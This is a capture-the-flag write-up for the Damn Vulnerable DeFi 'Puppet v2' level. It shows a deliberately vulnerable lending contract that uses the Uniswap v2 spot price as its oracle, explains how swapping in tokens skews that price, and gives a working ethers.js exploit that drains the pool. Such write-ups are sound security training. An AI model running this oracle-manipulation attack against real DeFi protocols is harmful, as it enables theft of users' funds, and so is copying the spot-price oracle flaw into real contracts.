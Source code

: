 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 9: Puppet v2'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our ninth challenge is called 'puppet v2' and it comes with the following prompt:

```
The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!

Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)
```

Once more, our mission is to drain the lending pool!

The contracts for this challenge are located in contracts/puppet-v2/. The contract source code can be found below:

<details>
<summary> PuppetV2Pool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external returns (uint256);
}

/**
 * @title PuppetV2Pool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetV2Pool {
    using SafeMath for uint256;

    address private _uniswapPair;
    address private _uniswapFactory;
    IERC20 private _token;
    IERC20 private _weth;
    
    mapping(address => uint256) public deposits;
        
    event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);

    constructor (
        address wethAddress,
        address tokenAddress,
        address uniswapPairAddress,
        address uniswapFactoryAddress
    ) public {
        _weth = IERC20(wethAddress);
        _token = IERC20(tokenAddress);
        _uniswapPair = uniswapPairAddress;
        _uniswapFactory = uniswapFactoryAddress;
    }

    /**
     * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and borrowed token have same amount of decimals.
     */
    function borrow(uint256 borrowAmount) external {
        require(_token.balanceOf(address(this)) >= borrowAmount, "Not enough token balance");

        // Calculate how much WETH the user must deposit
        uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);
        
        // Take the WETH
        _weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

        // internal accounting
        deposits[msg.sender] += depositOfWETHRequired;

        require(_token.transfer(msg.sender, borrowAmount));

        emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount, block.timestamp);
    }

    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return _getOracleQuote(tokenAmount).mul(3) / (10 ** 18);
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
            _uniswapFactory, address(_weth), address(_token)
        );
        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
    }
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Just like the last level, this one is all about manipulating the uniswap pool. Only this time, we are using uniswap v2! What is wrong with the way the `calculateDepositOfWETHRequired()` function calculates the price of the token?
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
Useful resources:

https://uniswap.org/blog/uniswap-v2
https://docs.uniswap.org/protocol/V2/reference/smart-contracts/router-02
https://github.com/Uniswap/v2-periphery/blob/master/contracts/UniswapV2Router02.sol
https://github.com/Uniswap/v2-periphery/blob/master/contracts/libraries/UniswapV2Library.sol
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Just like last time, we can see that the loans are offered based on the value returned by a function. This time it's the `calculateDepositOfWETHRequired()` function. This in turn calls `_getOracleQuote` which returns a value from `UniswapV2Library.quote()`. The parameters passed into the quote are the amount of reserves of each of the WETH and DVT pair held by our uniswap v2 exchange. In the end, this return value is multipled by 3 in order to provide a collateralization requirement of 3x. When we run it through the first time, we can see that `10 WETH / 100 DVT = 0.1 * borrowAmount * 3` is our return value for `calculateDepositOfWETHRequired()`. If we want to return a lower amount of WETH required, we want to manipulate the exchange pool such that there is less WETH and more DVT. Reading through the documentation and source code as linked in the above hint, we can find the perfect function to do so: `swapExactTokensForETH()`. Below is the code from github:
```
function swapExactTokensForETH(uint amountIn, uint amountOutMin, address[] calldata path, address to, uint deadline)
        external
        virtual
        override
        ensure(deadline)
        returns (uint[] memory amounts)
    {
        require(path[path.length - 1] == WETH, 'UniswapV2Router: INVALID_PATH');
        amounts = UniswapV2Library.getAmountsOut(factory, amountIn, path);
        require(amounts[amounts.length - 1] >= amountOutMin, 'UniswapV2Router: INSUFFICIENT_OUTPUT_AMOUNT');
        TransferHelper.safeTransferFrom(
            path[0], msg.sender, UniswapV2Library.pairFor(factory, path[0], path[1]), amounts[0]
        );
        _swap(amounts, path, address(this));
        IWETH(WETH).withdraw(amounts[amounts.length - 1]);
        TransferHelper.safeTransferETH(to, amounts[amounts.length - 1]);
    }
``` 
Ok, so let's see what happens when we put in all of our attacker's DVT.


```
ETH_Pool = 10
DVT_Pool = 100

Invariant = 10*100 = 1000

Fee = 10000 * 0.003 = 30 DVT
DVT_Pool = 100 + 10000 = 10100
ETH_Pool = 1000 / 10070 = 0.099 ETH

Attacker receives: 10 - 0.099 ETH = 9.901 ETH
Attacker ETH balance: 29.901
Attacker DVT balance: 0

calculateDepositOfWETHRequired() = 0.099/10070 = 0.00000983118 * 3 = 0.00002949354

depositOfWETH Required = tokenAmount * 0.00002949354

if tokenAmount = 1000000, depositOfWETH Required = 1000000 * 0.00002949354 = 29.49 WETH

```
Performing the swap with all of our tokens, we can see that we will be left with more ETH than is required to drain the entire lending pool of DVT. We will, however, have to remember to convert the ETH to WETH, but then we can call `borrow()` with the tokenAmount of 1000000 and we will obtain all of the funds of the lending pool!

</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        let deadline = (await ethers.provider.getBlock('latest')).timestamp * 2
        await this.token.connect(attacker).approve(this.uniswapRouter.address,ATTACKER_INITIAL_TOKEN_BALANCE);

        await this.uniswapRouter.connect(attacker).swapExactTokensForETH(ATTACKER_INITIAL_TOKEN_BALANCE, 1, [this.token.address,this.weth.address], attacker.address, deadline);
        await this.weth.connect(attacker).deposit({value: ethers.utils.parseEther('29.5')})
        await this.weth.connect(attacker).approve(this.lendingPool.address,ethers.utils.parseEther('30'));
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
    });
```
</div>
</details>
